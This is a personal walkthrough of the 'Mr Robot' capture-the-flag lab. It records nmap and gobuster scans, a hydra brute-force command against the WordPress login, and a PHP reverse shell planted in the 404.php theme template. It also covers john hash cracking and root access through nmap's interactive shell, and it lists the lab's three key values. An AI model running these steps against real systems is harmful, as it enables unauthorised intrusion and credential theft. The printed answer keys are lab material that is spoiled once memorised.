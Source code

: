 # Mr Robot Notes

# My IP = 10.8.19.163

# Target IP = c

# NMAP Scan:

> nmap -Pn -n -sC -sV -vv -T4 -A --script vuln 10.10.188.0 | tee mr-robot.nmap

Results: 

80/tcp  open   http     syn-ack ttl 63 Apache httpd
443/tcp open   ssl/http syn-ack ttl 63 Apache httpd

# Gobuster

> gobuster dir -u http://10.10.188.0:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee mrrobotbuster.txt

Results:

/images (Status: 301)
/blog (Status: 301)
/rss (Status: 200)
/sitemap (Status: 200)
/login (Status: 302)
/0 (Status: 301)
/feed (Status: 200)
/video (Status: 301)
/image (Status: 301)
/atom (Status: 200)
/wp-content (Status: 301) - blog logon page. 
/admin (Status: 301)
/audio (Status: 301)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 200)
/intro (Status: 200)
/license (Status: 200) - had a flag or potential password on the document. 
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 200)
/page1 (Status: 200)
/readme (Status: 200) - 

/robots (Status: 200) - Stored first key. "073403c8a58a1f80d943455fb30724b9" - also downloaded the fscoity.dec file.

[ERROR] 2020/05/26 16:14:26 [!] net/http: request canceled (Client.Timeout exceeded while reading body)
/dashboard (Status: 302)
/%20 (Status: 301)

1. Whats the first key?

> 073403c8a58a1f80d943455fb30724b9

2. What is the second key?

#Hydra

1. Used the dictionary files downloaded and attacking the http post form with hydra:

> hydra -l /home/cory/DirFusion/mr\ robot/fsocity.dic -p /home/cory/DirFusion/mr\ robot/fsocity.dic -u 10.10.188.0 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.188.0%2Fwp-admin%2F&testcookie=1:Login Failed" -vv

Trying peoples names wordlist for the user name and the fscoity.dic file. 

!!!Problem. Hydra would successfully crack the password but because I had the login flags with lower case it was reading my file path as the password and user name. SOOOOO I switched both to the uper case "-L & -P". Working jsut fine now.

2. Decided to try and use all the iterations of the username "Elliot" that is in our fsocity list. Username is "Elliot". This shortened the password cracking by alot. I did this by plugging in the username in the forget my password page of the web application. Elliot is the only one that did not return an error.

# Base64 

The password information that was given on the "license" page was base64 encoded. I cancelled the hydra password crack and decided to try the username and password after decoding the base64 information.

Username: elliot 	Password: ER28-0652

# Reverse Shell time

1. Edited Pentest Monkey's PHP reverse shell. Added my VPN tun0 IP address and port 7777.

2. Edited existing template and saved the data. Ran the code by accessing the new directory via the browser. Go to ---> Appearance, Editor. Select template to edit. I chose the 404.php template and pasted the revshell.php code. Success I have a reverse shell. 

# Im in!

> $ uname -a
> Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux

1. Found md5 hash for user robot.

> robot:c3fcd3d76192e4007dfb496cca67e13b

# John

> john --format=RAW-md5 --fork=4 -wordlist=/usr/share/wordlists/rockyou.txt robot.txt

Success? Password: abcdefghijklmnopqrstuvwxyz

# Privilege Escalation

1. I need to switch to the user "robot".

> python -c 'import pty; pty.spawn("/bin/bash")'

> su robot

Enter password cracked by John.

> cd /home/robot

> cat key-2-of-3.txt

> 822c73956184f694993bede3eb39f959

2. Get root shell.

> nmap --interactive

> !sh

Now I have a root shell. 

> cd /root

> cat key-3-of-3.txt

> 04787ddef27c3dee1ee161b21670b4e4





